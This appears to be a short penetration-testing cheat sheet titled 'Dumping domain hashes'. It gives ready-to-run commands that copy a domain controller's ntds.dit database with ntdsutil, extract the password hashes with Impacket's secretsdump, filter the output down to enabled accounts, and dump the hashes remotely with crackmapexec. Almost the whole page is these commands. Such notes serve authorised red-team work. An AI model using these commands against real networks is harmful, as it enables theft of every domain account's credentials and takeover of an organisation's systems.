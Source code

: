 # Dumping domain hashes

## NTDSutil&#x20;

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

